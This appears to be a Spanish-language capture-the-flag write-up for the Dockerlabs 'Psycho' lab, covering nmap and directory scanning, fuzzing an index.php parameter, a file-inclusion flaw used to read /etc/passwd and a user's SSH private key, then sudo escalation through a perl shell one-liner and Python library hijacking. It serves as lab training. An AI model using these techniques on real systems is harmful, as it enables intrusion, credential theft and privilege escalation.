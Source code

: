 # MACHINE PSYCHO

## Información General

- **Plataforma**: Dockerlabs
- **Sistema Operativo**: Linux
- **Dificultad**: Fácil

  ![machine](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/machine.png)

## DESPLIEGUE
```python
bash auto_deploy.sh psycho.tar
```
![despliegue](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/despliegue.png)

## RECONOCIMIENTO
```python
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2 -oN ports
```
```ruby
# Nmap 7.94SVN scan initiated Sat Mar  1 20:14:56 2025 as: nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV -oN ports 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2025-03-01 20:14:56 -05 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLmfDz6T3XGKWifPXb0JRYMnpBIhNV4en6M+lkDFe1l/+EjBi+8MtlEy6EFgPI9TZ7aTybt2qudKJ8+r3wcsi8w=
|   256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHtGVi9ya8KY3fjIqNDQcC9RuW20liVFDd+uUEgllPzQ
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  1 20:15:04 2025 -- 1 IP address (1 host up) scanned in 8.82 seconds
```
## ENUMERACION
![weberro](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/PAGINA%20ERROR.png)

Podemos fijarnos que hay un mensaje en la parte izquiera final de la web, indicando un error, como si una solicitud se estuviera tramitando mal
ya esto nos recuerda un poco a la Vulnerabilidad de LFI, realizaremos una fuerza bruta para descubrir directorios con gobuster

```ruby
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
![gobuster](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/gobuster.png)

Vemos que tenemos una carpetita `assets`, si sapeamos es una imagen, eh aplicado esteganografia para ver si hay data oculta pero no hay nada

![assets](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/assets.png)

index.php nos dirige a la misma web, entonces vamos a aplicar un Fuzzing para ver si descubrimos un parametro y explotar un posible LFI
```ruby
wfuzz -c --hc=404,500 --hw=169 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/index.php?FUZZ=whoami'
```
![Wfuzz](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/wfuzz.png)
## EXPLOTACION
Como vemos tenemos un parámetro secret incluido en el index.php, vamos a la URL modificamos y tratamos de leer el `/etc/passwd` y bingo
tenemos 2 Usuarios que son: vaxei y luisillo 

![users](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/users.jpg)

Entonces la unica forma que tenemos de aprovechar un inicio de sesión por ssh es con el id_rsa de los usuarios, pero para esto se tiene que apicar un Path Transversal porque asi nomas no deja y ojo: eh buscado el id_rsa del user Luisillo y no hay, solo se encuentra el de user vaxei

![id_rsa_vaxei](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/id_rsa_vaxei.png)

extraemos el id_rsa y copiamos en un archivo que crearemos en nuestra maquina atacante, IMPORTANTE: darle permiso `chmod 600 id_rsa`

![permisos_id_rsa](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/permisos_id_rsa.png)

```ruby
ssh -i id_rsa vaxei@172.17.0.2
```
![login_vaxei](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/login_vaxei.png)

## ESCALADA DE PRIVILEGIOS
La manera mas sencilla hacer 
```ruby
sudo -l
```
si no, podemos aprovechar permisos SUID pero este no es el caso, podemos observar que el usuario Luisillo puede ejecutar `/usr/bin/perl`, es decir nos convertiremos primero en luisillo para luego escalar a root

![gtfobins](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/gtfobins.png)

```ruby
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```
![luisillo](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/luisillo.png)

Volvemos a realizar un `sudo -l` con el usuario luisillo y vemos que podemos ejecutar comandos con todos los permisos pero en un solo archivo específico

![pivi_luisillo](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/privi_luisillo.png)



al poder ver el contenido del archivo ``paw.py`, podemos aplicar una tecnica llamada *Python Library Jihacking*, para poder secuestrar una libreria y al 
momento de ejecutar el script, se ecute el script llamado igual que la libreria y ganar acceso

![subprocess](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/subprocess.png)


ejecutamos el paw.py y hemos ganado acceso como root

![root](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/root.png)


# ELIMINAR LA MAQUINA
```shell
Ctrl + C
```






